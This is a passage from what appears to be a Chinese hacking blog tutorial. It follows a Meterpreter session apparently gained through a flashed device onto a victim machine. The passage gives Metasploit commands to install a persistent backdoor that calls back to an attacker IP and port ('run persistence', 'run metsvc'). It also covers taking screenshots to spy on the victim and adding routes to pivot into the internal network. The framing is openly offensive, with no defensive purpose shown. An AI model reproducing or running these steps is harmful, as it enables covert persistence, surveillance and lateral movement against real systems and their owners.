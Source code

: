 ![image-20230527100923342](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271009369.png)

更多代码在文章底部有相关信息，不要着急！

**编译好之后我们直接上传即可完成烧录，直接点击上传可以检查编译并上传。**

##  **Shell快到碗里来**

![image-20230527100942749](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271009772.png)

**让基友给我赶烧：**

![image-20230527101008879](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271010902.png)

**如图：**

![image-20230527101016985](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271010010.png)

**我们已经获取到了****Meterpreter****会话，现在我们可以为所欲为了！**

**为了防止亡羊补牢，要一劳永逸，我们先添加一个持久后门，命令如下：**

```sh
run persistence -X -i 5 -p 端口 -r IP
或者
run metsvc
```

**第二种方法直接监听即可，具体方法找谷哥和度娘。**

![image-20230527101110186](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271011208.png)

**附带一张屏幕截图：**

```
screenshot
```

![image-20230527101127573](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271011598.png)

**打开偷窥一下：**

![image-20230527101137573](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271011626.png)

##  **内网漫游**

![image-20230527101147676](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271011699.png)

**查看子网：**

```sh
查看子网：
run get_local_subnets
添加路由：
route add 子网 掩码 会话id
查看路由：
route print
自动化添加路由：
load auto_add_route
```
